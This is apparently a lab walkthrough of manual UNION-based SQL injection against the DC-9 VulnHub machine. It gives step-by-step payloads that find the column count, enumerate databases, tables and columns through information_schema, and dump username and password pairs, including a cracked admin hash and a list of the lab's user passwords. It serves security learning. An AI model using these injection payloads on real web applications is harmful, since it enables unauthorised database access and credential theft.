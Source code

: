 # Example

I'm using DC-9 from VulnHub as an example.

What we are exploring:

![](../../../.gitbook/assets/18b4269b74584646a3c791cb5a53dbb1.png)

How does it behave when searching for 'Tom':

![](../../../.gitbook/assets/c69dbe5bcc0e441496cc0430698b8cb7.png)

Trying `Tom' OR '1' = '1` returns nothing

Trying a commentary: `Tom' -- -` returns the result normally, so we identified it is vulnerable to SQLi. This is the query we will be developing from.

So now, we need to define some stuff:

**1. What we think the query is:**  
  
`SELECT * FROM USERS WHERE FIRST_NAME = 'userinput'-- -`

**2. What we want to do:** 

Explore UNION queries to gather data.

**3. What do we need to do UNION:** 

Understand the \* from the first query. Because UNION only works when the query is balanced in a sense that you need both the primary and the subquery to parse the same number of 'fields'.

We already have a pretty good indicator to how many fields that \* is representing, since the result returns 5 different values:

ID  
Name  
Position  
Phone  
Email

So this is at least 5 fields. To make sure this is the right answer, we can simply UNION SELECT like this:

```text
Tom' UNION SELECT 1,2,3,4,5-- -
```

You need to remember that the UNION SELECT is a subquery and it needs to respect the field number of the primary query.

When trying that query though, it returns nothing, this means that it actually don't have 5 fields. What we can do to discover how many are there, we can basically start from 1 field and increase the value each query until it returns correctly.

```text
Tom' UNION SELECT 1-- -
Tom' UNION SELECT 1,2-- -
Tom' UNION SELECT 1,2,3-- -
...
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

We can put that through a proxy \(I'm using OWASPZAP, but you can use BURP\). Or put that direct in the browser. Ill use the browser as example because its better to visualize and explain, but you should be doing all this inside your proxy.

When querying with 6 fields:

```text
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

This is what we see:

![](../../../.gitbook/assets/54f6d4677b694bc0901a247e2585031a.png)

So there are actually 6 fields, the Name field can be divided in FIRST\_NAME and LAST\_NAME

So the query becomes:

```text
SELECT ID, FIRST_NAME, LAST_NAME, POSITION, PHONE, MAIL FROM USERS WHERE FIRST_NAME = 'userinput'-- -
```

Now that we know how many fields there are, we can start gathering data, for example, which database we are in right now. Since the UNION subquery is already working, we can simply replace one of the 6 fields to something we want to:

```text
Tom' UNION SELECT database(),2,3,4,5,6-- -
```

![](../../../.gitbook/assets/6c36787b99ae437588beba86afe2eb81.png)

So now we know that the database is Staff.

Now we can request information from the main 3 tables from the information\_schema database, which is like the metadata.

schema\_name inside INFORMATION\_SCHEMA.SCHEMATA = Stores database names  
INFORMATION\_SCHEMA.TABLES = Stores tables names  
INFORMATION\_SCHEMA.COLUMNS = Stores columns names

To gather database names, for example, we can:

```text
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata-- -
```

Which returns the current database name, however, we can use the LIMIT function to discover the other databases names:

```text
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 1,1-- -
which returns:
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 2,1-- -
Which returns:
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 3,1-- -
Which returns:
ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>
```

When it stops returning data, you know you verified all possible values.

Other way to gather this information is to use group\_concat, which puts every value in a single line:

```text
Tom' UNION SELECT group_concat(SCHEMA_NAME),2,3,4,5,6 FROM information_schema.schemata-- -
Which returns:
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>
```

**From now on, I'll be ommiting part of the output and formatting the important part for a better understanding.**

Since we discovered all the existent databases, now we need to discover the tables. Lets start with the staff db:

```text
Tom' UNION SELECT group_concat(TABLE_NAME),2,3,4,5,6 FROM information_schema.tables where table_schema = "Staff"-- -
Which returns:
StaffDetails
Users
```

So now we now that there are only two tables inside Staff database: StaffDetails and Users.

Now, lets discover the columns in each of this tables:

```text
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "StaffDetails"-- -
Which returns:
id
firstname
lastname
position
phone
email
reg_date
```

Now for Users:

```text
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "Users"-- -
Which returns:
UserID
Username
Password
```

Another way to discover where each column is located is using a second parameter in concat:

```text
Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff"-- - 
Which returns:

StaffDetails:id
StaffDetails:firstname
StaffDetails:lastname
StaffDetails:position
StaffDetails:phone
StaffDetails:email
StaffDetails:reg_date
Users:UserID
Users:Username
Users:Password
```

Now, since we already discoverd the structure of the Staff table, we can do the same to the database users:

```text
search=Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "users"-- - 
Which returns:

UserDetails:id
UserDetails:firstname
UserDetails:lastname
UserDetails:username
UserDetails:password
UserDetails:reg_date
```

After all this work, we can start analyzing the database and then gather information we consider useful. We have two different sets of username and passwords, one from Staff.Users and other from users.UserDetails

```text
Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- - 
Which returns:
admin:856f5de590ef37314e7c3bdf6f8a66dc

after brute-forcing it:
admin:transorbital1
```

```text
search=Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM users.UserDetails -- - 
Which returns:
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```

